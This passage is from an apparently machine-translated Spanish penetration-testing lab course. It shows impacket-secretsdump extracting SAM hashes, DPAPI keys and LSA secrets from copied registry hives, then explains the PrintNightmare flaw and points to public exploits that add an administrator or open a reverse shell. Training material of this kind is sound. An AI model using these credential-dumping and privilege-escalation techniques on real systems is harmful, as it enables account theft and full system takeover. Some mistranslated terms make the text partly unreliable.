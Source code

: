 Estas copias se pueden transferir nuevamente al host de ataque, donde se usa Impacket-SecretsDump para extraer los hash:

  Exploits de núcleo

```shell-session
xnoxos@htb[/htb]$ impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Target system bootKey: 0xebb2121de07ed08fc7dc58aa773b23d6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c93428723187f868ae2f99d4fa66dceb:::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x3c7b7e66890fb2181a74bb56ab12195f248e9461
dpapi_userkey:0xc3e6491e75d7cffe8efd40df94d83cba51832a56
[*] NL$KM 
 0000   45 C5 B2 32 29 8B 05 B8  E7 E7 E0 4B 2C 14 83 02   E..2)......K,...
 0010   CE 2F E7 D9 B8 E0 F0 F8  20 C8 E4 70 DD D1 7F 4F   ./...... ..p...O
 0020   42 2C E6 9E AF 57 74 01  09 88 B3 78 17 3F 88 54   B,...Wt....x.?.T
 0030   52 8F 8D 9C 06 36 C0 24  43 B9 D8 0F 35 88 B9 60   R....6.$C...5..`
NL$KM:45c5b232298b05b8e7e7e04b2c148302ce2fe7d9b8e0f0f820c8e470ddd17f4f422ce69eaf5774010988b378173f8854528f8d9c0636c02443b9d80f3588b960
```

`CVE-2021-1675/CVE-2021-34527 PrintNightmare`es un defecto en[Rpcaddprinterdriver](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/f23a7519-1c77-4069-9ace-a6d8eae47c22)que se utiliza para permitir la impresión remota y la instalación del controlador. Esta función está destinada a dar a los usuarios con el privilegio de Windows`SeLoadDriverPrivilege`La capacidad de agregar controladores a una bobina de impresión remota. Este derecho generalmente está reservado para los usuarios en el grupo de administradores incorporados y los operadores de impresión que pueden tener una necesidad legítima de instalar un controlador de impresora en la máquina de un usuario final de forma remota. La falla permitió a cualquier usuario autenticado agregar un controlador de impresión a un sistema de Windows sin tener el privilegio mencionado anteriormente, permitiendo que un atacante se ejecute la ejecución del código remoto como sistema en cualquier sistema afectado. El defecto afecta a cada versión compatible de Windows, y es que la bobina de impresión se ejecuta de forma predeterminada en controladores de dominio, Windows 7 y 10, y a menudo está habilitado en los servidores de Windows, esto presenta una superficie de ataque masiva, por lo tanto, "pesadilla". Microsoft lanzó inicialmente un parche que no solucionó el problema (y la orientación temprana era deshabilitar el servicio de boteador, lo cual no es práctico para muchas organizaciones) pero lanzó un segundo[parche](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)En julio de 2021, junto con la orientación para verificar que la configuración específica del registro se establezca en`0`o no definido. Una vez que esta vulnerabilidad se hizo pública, las exploits de POC se publicaron bastante rápido.[Este](https://github.com/cube0x0/CVE-2021-1675)versión por[@cubo0x0](https://twitter.com/cube0x0)Se puede usar para ejecutar una DLL maliciosa de forma remota o local utilizando una versión modificada de Impacket. El repositorio también contiene una implementación de C#. Este[Implementación de PowerShell](https://github.com/calebstewart/CVE-2021-1675)Se puede usar para una escalada rápida de privilegios locales. De manera predeterminada, este script agrega un nuevo usuario de administración local, pero también podemos suministrar una DLL personalizada para obtener un shell inverso o similar si agregar un usuario administrador local no está en alcance.
